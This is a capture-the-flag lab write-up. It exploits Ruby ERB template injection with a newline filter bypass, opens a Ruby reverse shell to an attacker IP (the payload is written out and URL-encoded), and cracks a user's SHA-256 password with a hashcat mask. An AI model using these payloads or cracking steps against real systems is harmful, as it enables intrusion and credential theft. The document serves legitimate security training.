









# Step 1 - Recognition

I first search for opened ports using nmap :


On the port 80, I found a website with a form to compute a weighted average :


I try to make some XSS injections but the fields are protected.
On the footer of the website, we can see that the server uses WEBrick which use the language Ruby :


I search for [SSTI](https://nahco3.fr/2021/11/ssti_1/) and found a syntax in Ruby :
```jsx
<%= RUBY_CODE %>
```

Then if we try to put this payload, we will get as a result `49` :
```ruby
<%= 7 * 7 %>
```

But the fields are protected :


I try to encode the payload to the URL format like this :
```jsx
%3C%25%3D%207%20%2A%207%20%25%3E
```

But it give the same result.
With Burp, if we try this payload :

```jsx
a
<%= 7 * 7 %>
```
Encoded in the URL format :
```jsx
a%0A%3C%25%3D%207%20%2A%207%20%25%3E
```

It gives us the following result :


As we can see, the result is interpreted.
The reason why it worked is because only the first line is protected (because on the front-side, we can only enter a single line).

Then, we can execute a reverse-shell by replacing `7 * 7` by the reverse-shell payload :
```jsx
system('ruby -rsocket -e\\'spawn("sh",[:in,:out,:err]=>TCPSocket.new("ATTACKER_IP",9001))\\'')
```

Again we encode it in the URL format :
```jsx
a%0A%3C%25%3D%20system%28%27ruby%20-rsocket%20-e%5C%27spawn%28%22sh%22%2C%5B%3Ain%2C%3Aout%2C%3Aerr%5D%3D%3ETCPSocket.new%28%2210.10.14.5%22%2C9001%29%29%5C%27%27%29%20%25%3E
```

And I get the reverse-shell :


And then I get the user.txt flag

#### Flag root.txt

In the reverse-shell, I found a directory `Migration` in `/home/susan`. This file contains credentials with hashed passwords :


By putting this file in a database viewer online, I can find the full hash of susan. I use a tool named [Hash Identifier](https://github.com/blackploit/hash-identifier.git) to identify the hash type :


So the hash type is SHA-256.
I cannot crack the password using `john` and the wordlist `rockyou.txt`. I try to search for informations in the VM and found a mail at `/var/spool/mail` explaining the new format of a password :

```bash
{firstname}_{firstname backwards}_{random_int_between_1_and_1.000.000.000}
```

Then we can already find the first part of the password :
```bash
susan_nasus_
```

And crack the other part using hashcat :
```bash
hashcat -m 1400 -a 3 susan "susan_nasus_?d"
```

By adding `?d` at the end of the password, we tell hashcat that the password contains a digit. So we add enough digits to go from 1 to 1.000.000.000 and we get this mask :
```bash
hashcat -m 1400 -a 3 susan "susan_nasus_?d?d?d?d?d?d?d?d?d"
```

I finally find this password :
```bash
susan_nasus_413759210
```

And I can finally get the root password.